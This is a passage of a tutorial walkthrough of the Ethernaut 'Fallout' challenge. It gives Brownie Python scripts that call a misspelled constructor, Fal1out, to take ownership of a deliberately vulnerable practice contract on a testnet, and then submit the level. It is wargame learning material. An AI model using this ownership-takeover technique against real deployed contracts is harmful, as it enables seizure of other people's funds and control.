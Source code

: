 And lets make our function to hack the contract.

```plaintext

def hack():
    instance_contract = interface.IFallout(INSTANCE_ADDRESS)
    instance_contract.Fal1out(
      {"from": ACCOUNT, "value": 0.000000000000000001}
    )
    print(
      f"Contract has been hacked. The new owner now is {instance_contract.owner()}"
    )

def main():
    hack()
```

We just have to grab the contract object using the `interface` [method provided by brownie](https://eth-brownie.readthedocs.io/en/stable/core-contracts.html#using-local-interfaces), and then call `Fal1out`

This would give us the ownership of the contract.

*Let's run this*

```plaintext
$ brownie run scripts/hack.py --network rinkeby
```

**That's it.**

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1643941108371/737V5GdKq.png  )

Now, **let's submit the instance to the ethernaut contract.**

**We need the ABI and the address of the ethernaut contract.**

To grab the address just put `ethernaut.address` in the browser console.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1643941131858/mi0hIiXMw.png  )

Store the address in a variable

And to grab the abi just grab it from the ethernaut contract object that is in the browser console.

Write `ethernaut` in the browser console.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1643941240365/naNt2QfKL.png  )

And paste it in your file

**Remember to change the** `true` and `false` statement, to add the capital letter `True` `False`

Let's make a function to submit the contract.

```plaintext
def submit_the_contract():
  
    ethernaut_contract = Contract.from_abi(
      "Ethernaut",
      ETHERNAUT_CONTRACT_ADDRESS, 
      ETHERNAUT_ABI)
    print("Submiting instance")
    
    ethernaut_contract.submitLevelInstance(
      INSTANCE_ADDRESS, {"from": ACCOUNT}
    )
    print("Instance submitted. Level passed. WOHOOO!")
    print("refresh the page of ethernaut")


```